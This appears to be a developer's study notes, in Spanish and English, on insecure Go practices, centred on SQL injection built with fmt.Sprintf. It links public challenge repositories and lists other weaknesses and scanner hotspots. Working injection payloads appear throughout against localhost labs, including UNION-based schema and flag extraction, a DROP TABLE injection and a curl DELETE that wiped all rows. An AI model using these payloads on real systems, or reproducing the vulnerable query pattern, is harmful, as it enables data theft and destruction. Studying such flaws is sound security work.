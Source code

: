 # Bad practices

Burp Intruder

- SQL INjection in SELECT Sprintf (mario + will)

    Un usuario o varios

        GET http://localhost:8080/users?id='1'OR'1'='1' HTTP/1.1

La cláusula WHERE id = %s normalmente devolvería un solo registro, si el campo id es clave primaria o único.

Pero debido a que el id se está inyectando directamente con fmt.Sprintf, es posible manipular la consulta. Ejemplo:

SELECT id, name, email FROM users WHERE id = 1 OR 1=1
⚠️ Esto devolvería todos los usuarios de la tabla.

curl -X GET "http://localhost:8080/instruments/vulnerable-sqligetinst?id=3%27%20OR%20%27%27=%27"



- SQL Injection in SELECT Sprintf


	query := fmt.Sprintf("SELECT * FROM juice WHERE id = '%s'", id)

gingonic ==> https://github.com/KaanSK/golang-sqli-challenge/blob/main/SOLUTION.MD
r.GET("/juice/:id", service.Get)

    UNION SELECT null;--
    UNION SELECT null,null;--
    UNION SELECT null,null,null;--
    UNION SELECT 1,table_name FROM information_schema.tables WHERE table_schema='public'
    UNION SELECT 1,column_name FROM information_schema.columns WHERE table_name='super_secret_table'
    UNION SELECT 1,flag FROM super_secret_table


http "localhost:8080/user?id=id=1)) UNION ALL SELECT NULL,version(),current_database(),NULL,NULL,NULL,NULL,NULL--"
http "localhost:8080/user?id=1)) = ((1)) UNION ALL SELECT NULL,version(),current_database(),NULL,NULL,NULL,NULL,NULL--"


gingonic ==> https://github.com/wahyuhadi/gorm-sqlInjection/
router.GET("/user", GetUser)

        err := dbms.First(&user, id) // Sql Injection in this line /user?id=id=1)) or 1=1--


julienschmidt/httprouter
https://github.com/feedlyy/sql-injection-test/
err = db.Get(&person, fmt.Sprintf("SELECT * FROM person WHERE id = %s", id))
        
        drop table person: SELECT name, email FROM users WHERE ID = '10';DROP TABLE person--*/



https://github.com/santoshkavhar/SQL-Injection/  (mysql)

	query = fmt.Sprintf("SELECT username, password FROM users1 where username='%s' and password='%s';", username, password)

        SELECT  username, password, FROM users1 where username='' or 1=1 #'' and password='' or 1=1 #'';





DUDA: dataSourceName := fmt.Sprintf("%s:%s@tcp(%s:%s)/%s", dbUser, dbPassword, dbHost, dbPort, dbName)

- SQL Injection in DELETE Sprintf (Payload codificado)

        curl -X DELETE "http://localhost:8080/instruments/vulnerable-sqli?id=3%27%20OR%20%27%27=%27"    FUNCIONO  (DELETE ALL)

       "3' OR ''='" esta debe ser or 1 = 1 la basica
       dynamic querys


- XSS in handler (productID, err := strconv.Atoi(chi.URLParam(r, "id"))) SANITIZER

- Exposición de Información Sensible: En docker compose

- Manejo Inseguro de Errores

- Autenticación/Autorización Débil o Ausente: Control de acceso deficiente.
Validación de Entrada Insuficiente: Confiar ciegamente en los datos del usuario.

- Fuerza Bruta / Enumeración de Usuarios: Facilitar adivinanzas de credenciales o IDs.

- Dependencias con Vulnerabilidades Conocidas: Aunque go mod download ya las baja, es bueno mencionarlo.


- cryptographic algorithm
- Harcoded credentials


Security Hotspots

- SQL Injection	High	Make sure using a dynamically formatted SQL query is safe here.
- Permission	Medium	Copying recursively might inadvertently add sensitive data to the container. Make sure it is safe here.
- Permission	Medium	The "golang" image runs with "root" as the default user. Make sure it is safe here
- Permission	Medium	The "postgres" image runs with "root" as the default user. Make sure it is safe here.